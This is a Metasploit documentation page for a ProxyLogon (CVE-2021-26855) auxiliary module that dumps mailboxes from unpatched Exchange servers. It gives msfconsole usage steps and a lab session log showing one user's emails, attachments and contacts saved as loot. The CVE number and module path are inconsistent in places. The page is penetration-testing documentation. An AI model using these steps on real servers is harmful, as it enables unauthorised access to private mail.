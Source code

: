 ## Vulnerable Application

CVE-2021-28855 is a pre-authentication SSRF (Server Side Request Forgery) which allows an attacker to
bypass authentication by sending specially crafted HTTP requests. This vulnerability is part of an attack
chain used to perform an RCE (Remote Code Execution).

This vulnerability affects (Exchange 2013 Versions < 15.00.1497.012, Exchange 2016 CU18 < 15.01.2106.013,
Exchange 2016 CU19 < 15.01.2176.009, Exchange 2019 CU7 < 15.02.0721.013, Exchange 2019 CU8 < 15.02.0792.010).

### Introduction

This module exploit a vulnerability on Microsoft Exchange Server that allows an attacker bypassing the
authentication and impersonating as the admin (CVE-2021-26855).

By taking advantage of this vulnerability, it is possible to dump all mailboxes (emails, attachments,
contacts, ...).

All components are vulnerable by default.

## Verification Steps

1. Start msfconsole
2. Do: `use auxiliary/gather/exchange_proxylogon`
3. Do: `set RHOSTS [IP]`
4. Do: `set EMAIL [EMAIL ADDRESS]`
5. Do: `run`

## Options

### ATTACHMENTS

Dump documents attached to an email. Default: true

### EMAIL

The email account what you want dump.

### FOLDER

The email folder what you want dump. Default: inbox

It is also possible to use other attributes such as: drafts, sentitems, ...

More info about this in the references.

### METHOD

HTTP Method to use for the check (only). Default: POST

### TARGET

Force the name of the internal Exchange server targeted.

## Advanced Options

### MaxEntries

Override the maximum number of object to dump.

## Auxiliary Actions

### Dump (Contacts)

Dump user contacts from exchange server.

### Dump (Emails)

Dump user emails from exchange server.

## Scenarios

```
msf6 auxiliary(gather/exchange_proxylogon_collector) > options 

Module options (auxiliary/gather/exchange_proxylogon_collector):

   Name         Current Setting           Required  Description
   ----         ---------------           --------  -----------
   ATTACHMENTS  true                      yes       Dump documents attached to an email
   EMAIL        gaston.lagaffe@pwned.lab  yes       The email account what you want dump
   FOLDER       inbox                     yes       The email folder what you want dump
   METHOD       POST                      yes       HTTP Method to use for the check (only). (Accepted: GET, POST)
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       172.20.2.110              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        443                       yes       The target port (TCP)
   SSL          true                      no        Negotiate SSL/TLS for outgoing connections
   TARGET                                 no        Force the name of the internal Exchange server targeted
   VHOST                                  no        HTTP server virtual host


Auxiliary action:

   Name           Description
   ----           -----------
   Dump (Emails)  Dump user emails from exchange server


msf6 auxiliary(gather/exchange_proxylogon_collector) > run
[*] Running module against 172.20.2.110

[*] https://172.20.2.110:443 - Attempt to exploit for CVE-2021-26855
[*]  * internal server name (EXCH2K16)
[*] https://172.20.2.110:443 - Sending autodiscover request
[*]  * Server: d8a7cc8c-7180-4b80-b53e-57c3449bcd4e@pwned.lab
[*]  * LegacyDN: /o=First Organization/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=9b9d8cf634f44ec4a0eda5c1c7c311da-Gasto
[*] https://172.20.2.110:443 - Sending mapi request
[*]  * sid: S-1-5-21-3756917241-677735496-3570881102-1141 (gaston.lagaffe@pwned.lab)
[*] https://172.20.2.110:443 - Selecting the first internal server found
[*]  * targeting internal: server2
[*] https://172.20.2.110:443 - Attempt to dump emails for <gaston.lagaffe@pwned.lab>
[*]  * successfuly connected to: inbox
[*]  * selected folder: inbox (AQAYAGdhc3Rvbi5sYWdhZmYAZUBwd25lZC5sYWIALgAAA+uQmQIqiSJLiXyYWVYT65MBACRuvwACXEpAuhG13iUjVgwAAAIBDAAAAA==)
[*]  * number of email found: 4
[*] https://172.20.2.110:443 - Processing dump of 4 items
[*]  * download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAA6ItL
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_455715.txt
[*]    -> attachment: AAAYAGdhc3Rvbi5sYWdhZmZlQHB3bmVkLmxhYgBGAAAAAADrkJkCKokiS4l8mFlWE+uTBwAkbr8AAlxKQLoRtd4lI1YMAAAAAAEMAAAkbr8AAlxKQLoRtd4lI1YMAAAA6IA6AAABEgAQAFejlEQ+wzFDoBLnyMUbSk4= (Messagerie - Administrator - Outlook.pdf)
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_392827.pdf
[*]    -> attachment: AAAYAGdhc3Rvbi5sYWdhZmZlQHB3bmVkLmxhYgBGAAAAAADrkJkCKokiS4l8mFlWE+uTBwAkbr8AAlxKQLoRtd4lI1YMAAAAAAEMAAAkbr8AAlxKQLoRtd4lI1YMAAAA6IA6AAABEgAQAAZVIXO5iaNNtJIokpS4aB4= (03.png)
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_187857.png
[*] 
[*]  * download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAA6ItK
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_470603.txt
[*] 
[*]  * download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAAAAEc
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_296938.txt
[*] 
[*]  * download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAAAAEX
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120226_default_172.20.2.110_gaston.lagaffep_524052.txt
[*] 
[*] Auxiliary module execution completed
msf6 auxiliary(gather/exchange_proxylogon_collector) > set action Dump\ (Contacts) 
action => Dump (Contacts)
msf6 auxiliary(gather/exchange_proxylogon_collector) > run
[*] Running module against 172.20.2.110

[*] https://172.20.2.110:443 - Attempt to exploit for CVE-2021-26855
[*]  * internal server name (EXCH2K16)
[*] https://172.20.2.110:443 - Sending autodiscover request
[*]  * Server: d8a7cc8c-7180-4b80-b53e-57c3449bcd4e@pwned.lab
[*]  * LegacyDN: /o=First Organization/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=9b9d8cf634f44ec4a0eda5c1c7c311da-Gasto
[*] https://172.20.2.110:443 - Sending mapi request
[*]  * sid: S-1-5-21-3756917241-677735496-3570881102-1141 (gaston.lagaffe@pwned.lab)
[*] https://172.20.2.110:443 - Selecting the first internal server found
[*]  * targeting internal: server2
[*] https://172.20.2.110:443 - Attempt to dump contacts for <gaston.lagaffe@pwned.lab>
[*]  * successfuly connected to: contacts
[*]  * selected folder: contacts (AQAYAGdhc3Rvbi5sYWdhZmYAZUBwd25lZC5sYWIALgAAA+uQmQIqiSJLiXyYWVYT65MBACRuvwACXEpAuhG13iUjVgwAAAIBDgAAAA==)
[*]  * number of contact found: 1
[*] https://172.20.2.110:443 - Processing dump of 1 items
[+]  * file saved to /home/mekhalleh/.msf4/loot/20210312120243_default_172.20.2.110_gaston.lagaffep_160567.txt
[*] Auxiliary module execution completed
msf6 auxiliary(gather/exchange_proxylogon_collector) > 
```

## References

1. <https://proxylogon.com/>
2. <https://aka.ms/exchangevulns>
3. <https://docs.microsoft.com/en-us/exchange/client-developer/web-service-reference/distinguishedfolderid>
4. <https://github.com/3gstudent/Homework-of-Python/blob/master/ewsManage.py>
